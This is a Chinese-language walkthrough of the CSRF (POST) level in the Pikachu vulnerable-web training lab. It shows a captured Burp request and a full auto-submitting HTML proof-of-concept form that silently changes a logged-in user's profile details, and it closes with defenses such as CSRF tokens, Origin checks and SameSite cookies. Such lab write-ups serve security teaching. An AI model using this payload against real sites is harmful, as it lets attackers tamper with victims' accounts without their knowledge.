

# Pikachu CSRF (post) 解题

访问地址：`csrf_post.php`，真正漏洞接口：**csrf_post_edit.php**

> 
> 和上一关 GET‑CSRF 原理一致，区别：**数据放在 POST 请求体，不能直接拼接 URL 攻击，必须构造 HTML 自动提交表单页面**。

## 步骤 1：登录账号

账号密码还是：任意用户 `vince/allen/kobe…`，密码全部 `123456`。
登录后点【修改个人信息】进入 `csrf_post_edit.php` 修改页面。

## 步骤 2：Burp 抓正常修改数据包

1. Burp 开启代理拦截；
2. 修改性别、手机、住址、邮箱，点 submit 提交；
3. 抓到 POST 请求：

```
POST /vul/csrf/csrfpost/csrf_post_edit.php HTTP/1.1
Host: 27aedf8e3e0b4557b080c5a54e4a7f5c--8081.ap‑shanghai2.cloudstudio.club
Content‑Type: application/x‑www‑form‑urlencoded

sex=boy&phonenum=13800138000&add=test&email=test@test.com&submit=submit
```

观察：**没有 CSRF‑token 字段**，没有校验来源头，存在 CSRF 漏洞。

## 步骤 3：生成恶意 POC 页面（两种方式）

### 方式 1：Burp 一键生成（推荐）

抓到 POST 包 → 右键 `Engagement tools` → `Generate CSRF PoC` → Copy HTML 代码。

### 方式 2：手写 HTML 表单

把`action`填写靶场完整接口地址，method 为`POST`，全部参数写`hidden`隐藏输入，页面加载 JS 自动提交表单。
完整 POC 代码（直接复制保存为`csrf_post.html`）：

```
<!DOCTYPE html>
<html>
<head>
<meta charset="UTF‑8">
</head>
<body>
<form action="https://27aedf8e3e0b4557b080c5a54e4a7f5c--8081.ap-shanghai2.cloudstudio.club/vul/csrf/csrfpost/csrf_post_edit.php" method="POST">
    <input type="hidden" name="sex" value="girl">
    <input type="hidden" name="phonenum" value="99999999999">
    <input type="hidden" name="add" value="hacked_post_csrf">
    <input type="hidden" name="email" value="hack@example.com">
    <input type="hidden" name="submit" value="submit">
</form>
<script>
//页面加载完毕自动提交表单
document.forms[0].submit();
</script>
</body>
</html>
```

> 
> 关键点：`method="POST"`，不能用 GET；全部 input 为`hidden`隐藏，JS 自动提交，受害者看不到表单。

## 步骤 4：漏洞复现测试

1. 当前浏览器保持登录 pikachu 账号（Cookie 有效）；
2. 在本地打开刚才保存的`csrf_post.html`；
3. 回到靶场【修改个人信息】页面刷新；
4. 用户资料被篡改，攻击成功。

> 
> 攻击条件：**受害者浏览器处于登录状态**，只要访问恶意 html 页面，浏览器自动带上站点 Cookie 发送 POST 请求，服务器认为是用户本人操作。

## GET‑CSRF 与 POST‑CSRF 对比

表格

| 类型 | 攻击手段 |
| --- | --- |
| GET‑CSRF | 直接构造恶意 URL 链接，点开就执行 |
| POST‑CSRF | 必须构造 HTML 表单页面，诱导访问页面，自动发 POST 请求 |

## 防御手段

1. 敏感修改接口禁止只依靠 Cookie 鉴权；
2. 表单加入随机**CSRF‑Token**，服务端校验；
3. 校验`Origin/Referer`请求来源头；
4. Cookie 设置`SameSite=Lax/Strict`；
5. 重要操作二次密码验证。


具体操作

获取到html代码，在其他任意地方访问这个html文件访问，即可完成信息修改